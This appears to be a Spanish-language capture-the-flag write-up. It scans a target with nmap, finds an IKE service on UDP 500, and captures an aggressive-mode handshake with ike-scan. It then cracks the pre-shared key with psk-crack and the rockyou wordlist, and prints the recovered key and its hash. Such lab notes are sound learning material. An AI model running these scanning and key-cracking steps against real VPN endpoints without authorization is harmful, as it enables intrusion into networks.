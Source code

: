 Empezaremos realizando un escaneo con [[NMAP]] en el cual encontramos abierto el puerto `22/tcp` y el puerto `500/udp`
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`
`nmap -sU -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

En el puerto `500` hay un servicio `ISAKMP Internet Security Association and Key Management Protocol`
Usaremos [[IKE-SCAN]] es una utilidad de línea de comandos para descubrir, identificar (fingerprint) y recopilar información de hosts que hablan IKE (Internet Key Exchange)

Ejecutaremos el siguiente comando:
`ike-scan --aggressive --pskcrack=psk.params`
`--aggresive` -> Envía identidades y parámetros en los primeros mensajes, sin esperar un handshake completo.
`--pskcrack` -> Captura el handshake en Aggressive Mode y lo guarda en `psk.params`

Usaremos [[PSK-CRACK]] Su objetivo principal es intentar adivinar la Pre-Shared Key (PSK)
`psk-crack -d /usr/share/wordlists/rockyou.txt psk.params`
Con `-d` seleccionaremos la wordlist y a continuación le pasaremos el archivo generado anteriormente.

Nos devolverá la password,(key):
`key "freakingrockstarontheroad" matches SHA1 hash 9acd999de926d953c088daf7b69efcfdecbd1893`

El hash lo guardamos en un fichero llamado hash.




